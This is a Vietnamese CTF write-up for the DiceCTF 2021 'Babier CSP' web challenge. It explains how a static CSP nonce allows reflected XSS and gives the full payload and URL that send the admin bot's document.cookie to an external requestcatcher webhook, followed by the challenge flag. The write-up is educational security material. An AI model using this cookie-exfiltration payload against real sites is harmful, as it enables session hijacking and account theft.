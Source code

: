 # BABIER CSP
### Thử thách: 
- [Baby CSP](https://2020.justctf.team/challenges/14)  was too hard for us, try Babier CSP.
- [babier-csp.dicec.tf](https://babier-csp.dicec.tf/)
- [Admin Bot](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=babier-csp)
- The admin will set a cookie  `secret`  equal to  `config.secret`  in index.js.
- Downloads
``index.js``
### Kiến thức nền:
- Content Security Policy (CSP).
- XSS (Cross-site scripting).
- Webhook (Reverse API).
### Giải quyết vấn đề:
1/ Initial reconnaissance:
Đề bài cho hai trang 1 là của client và 1 là của admin. Check thằng client trước xem sao:
![image](https://user-images.githubusercontent.com/61876488/107622961-36c3fd00-6c8b-11eb-8344-05a60fc4db10.png)
Bấm thử vào cái dòng "View Fruit" liên tục thì nó hiện ra tên các loại Fruit:v
![image](https://user-images.githubusercontent.com/61876488/107623162-80ace300-6c8b-11eb-998b-b69306aa4ab5.png)
CTRL + U rồi check source code xem:
```html
<html>
<a href='#' id=elem>View Fruit</a>
<script nonce=g+ojjmb9xLfE+3j9PsP/Ig==>
elem.onclick = () => {
location = "/?name=" + encodeURIComponent(["apple", "orange", "pineapple", "pear"][Math.floor(4 * Math.random())]);
}
</script>
</html>
```
Từ source code ta biết được trang web này sẽ random các loại Fruit bao gồm "apple", "orange", "pineapple", "pear" rồi hiển thị tên nó lên mỗi lần mình click vào dòng "View Fruit". Tên của các fruit này được truyền thông qua GET parameter "name". Thử inject một vài thứ gì đó vui vui xem nào. 
![image](https://user-images.githubusercontent.com/61876488/107624024-d46bfc00-6c8c-11eb-8ccc-7793e966d6e0.png)

Uầy!! Được luôn nè! Như vậy khả năng cao trang web này bị dính XSS rồi. Tiếp tục khai thác thôi.
2/ Bypassing CSP to exploiting XSS:
Vừa đúng lúc ngày hôm qua mới được học về XSS. Tuy nhiên khi check thử vài payload XSS mẫu như `<script> alert(1) </script>` (script hiện dòng cảnh báo có nội dung là "1" ở trên trang web ) thì không thấy gì cả. Check lại source code của trang web thì tôi phát hiện ra 1 điều đáng ngờ:
```html
<script nonce='g+ojjmb9xLfE+3j9PsP/Ig=='> ... </script>
```
Đây là thẻ script chứa câu lệnh để random các loại fruit rồi print ra. Thẻ này có một thuộc tính mà tôi chưa bao gặp `nonce='g+ojjmb9xLfE+3j9PsP/Ig=='`. Thử research 1 chút thì tôi biết được ["nonce"](https://content-security-policy.com/nonce/) là một thuộc tính được quy định trong CSP ([Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)). Chỉ cần paste url vào [đây](https://csp-evaluator.withgoogle.com/) là chúng ta có thể đọc được toàn bộ CSP của trang web đó:
![image](https://user-images.githubusercontent.com/61876488/107743763-186e0800-6d44-11eb-814a-631d50616949.png)

Từ CSP check được ta kết luận rằng tất cả các thẻ trong HTML Document đều không bị "ruled" bởi CSP (vì directive [default-src](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/default-src) được set giá trị là "none"), chỉ có duy nhất thẻ script là bị "ruled" (vì [script-src](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src) được set giá trị là "nonce-g+ojjmb9xLfE+3j9PsP/Ig=="). Điều này có nghĩa là nếu muốn inject một thẻ script vào HTML Document của trang web này, ta phải kèm vào nó một thuộc tính nonce với giá trị là 'g+ojjmb9xLfE+3j9PsP/Ig=='. Download code javascript (NodeJS) "index.js" từ đề bài, tìm thấy dòng code set giá trị cho thuộc tính "nonce" này bằng phương thức [randombytes](https://nodejs.org/api/crypto.html#crypto_crypto_randombytes_size_callback): 
```javascript
const  NONCE = crypto.randomBytes(16).toString('base64');
```
Nhìn có vẻ như giá trị nonce này sẽ random liên tục và mỗi giá trị nonce sẽ chỉ xuất hiện 1 lần mỗi khi ta refresh lại trang (đúng theo quy tắc là thế). Nhưng bằng 1 cách magic nào đó, refresh cái trang này bao nhiêu lần nonce vẫn giữ nguyên giá trị là 'g+ojjmb9xLfE+3j9PsP/Ig=='??? Ngon quá, vậy là chỉ cần ốp nguyên cái thằng nonce này vào payload là xong hihi!
![image](https://user-images.githubusercontent.com/61876488/107749166-bb2a8480-6d4c-11eb-886e-cd13a7c47cf3.png)

Đã xong phần XSS payload. Như vậy chúng ta hoàn toàn có thể tấn công vào trang web này thông qua lỗ hổng Reflected XSS (các bạn có thể tham khảo về các vuln XSS tại [đây](https://ethical-h4ckers-club.blogspot.com/2020/10/xss-co-ban-cors-va-csp.html)). 
3/ Đánh cắp cookie từ trang admin:
Thông thường khi muốn đánh cắp cookie bằng XSS bạn cần host một server đóng vai trò là điểm cuối tiếp nhận request gửi đến từ trang của victim (do payload XSS đã làm thay đổi đường đi của ban đầu request, thay vì đến nơi cần đến, nó sẽ đến server do bạn host và bạn có thể tha hồ đọc nó!). Thật may mắn là tôi có tìm được một site khá tiện lợi mà đơn giản cho phép chúng ta tạo một [webhook](https://topdev.vn/blog/webhook-la-gi/) có tên là [requestcatcher](https://requestcatcher.com/). Chỉ cần gõ vài phát là bạn có ngay một cái webhook:D
![image](https://user-images.githubusercontent.com/61876488/107753501-bcf74680-6d52-11eb-89bf-18ca9ecabb71.png)
![image](https://user-images.githubusercontent.com/61876488/107753550-cda7bc80-6d52-11eb-96e9-88b683c4cb96.png)

Bây giờ chỉ cần viết lại payload dựa theo CSP đã quy định của trang web:
```html
</h1>  <!-- đóng thẻ h1 lại vì trong HTML có 1 thẻ <h1> (open) -->
<script  nonce='g+ojjmb9xLfE+3j9PsP/Ig=='>   <!-- mở thẻ script với giá trị nonce đã được quy định --> 
scrp_tag = document.createElement('script');  <!-- tạo đối tượng "thẻ script"mới tên là "scrp_tag" -->
scrp_tag.src = 'https://antoine.requestcatcher.com/? flag='.concat(JSON.stringify(document.cookie)); <!-- chỉnh attribute src của "scrp_tag" để request của admin bot được redirect đến webhook mà ta đã tạo và chứa trong đó tham số "flag" được gán bằng cookie của admin bot --> 
scrp_tag.nonce = 'g+ojjmb9xLfE+3j9PsP/Ig==' <!-- setup attribute nonce của "scrp_tag" cho phù hợp với CSP -->
contain_tag = document.querySelector("body"); <!-- tham chiếu đến thẻ body của HTML Document -->
contain_tag.appendChild(scrp_tag); <!-- thêm "scrp_tag" vào body của HTML Document để thực thi script -->
</script>
</h1>
```
Cuối cùng chúng nhúng cái payload này vào link babier-csp.dicec.tf (vì Admin chỉ evaluate một mình cái link này) bằng cách gán nó vào parameter name:
```
https://babier-csp.dicec.tf/?name=</h1><script nonce='g+ojjmb9xLfE+3j9PsP/Ig=='>scrp_tag = document.createElement('script'); scrp_tag.nonce = 'g+ojjmb9xLfE+3j9PsP/Ig=='; scrp_tag.src = 'https://antoine.requestcatcher.com/?xss='.concat(JSON.stringify(document.cookie)); contain_tag = document.querySelector("body"); contain_tag.appendChild(scrp_tag);</script></h1>
```
Well well well, hãy xem chúng ta có gì ở webhook https://antoine.requestcatcher.com/ sau khi submit cái link đó ở Admin Bot:
 ![image](https://user-images.githubusercontent.com/61876488/107759051-5544f980-6d5a-11eb-8655-28f9603c037d.png)
 
 Kết quả trả về ở tham số "flag" là một tham số khác có tên là "secret". Cái tên này nghe khá là quen, hình như mình gặp đâu đó rồi...Hmmm, đây rồi, ngay trong souce code "index.js":
 ```javascript
 const  SECRET = config.secret;
 // to be continued...
app.use('/' + SECRET, express.static(__dirname + "/secret"));
```
Hằng SECRET được gán bằng "config.secret", có khả năng "config.secret" là tham số "secret". Đáng chú ý nhất là hàm [middleware](http://expressjs.com/en/guide/using-middleware.html#middleware.built-in) [express.static](https://expressjs.com/en/4x/api.html#express.static) - một hàm chuyên dùng để đọc và xử lý các nội dung tĩnh như file HTML, ảnh... Có thể tạm hiểu rằng sử dụng đường dẫn với token `4b36b1b8e47f761263796b1defd80745` trong request mà ta bắt được sẽ dẫn tới file "secret" của server:

    https://babier-csp.dicec.tf/4b36b1b8e47f761263796b1defd80745/

Truy cập URL này ta thu được:
![image](https://user-images.githubusercontent.com/61876488/107773599-7adcfd80-6d70-11eb-8db4-00b3a14453a6.png)

Yolo!! CTRL + U rồi lấy flag thôi hehe:

    dice{web_1s_a_stat3_0f_grac3_857720}
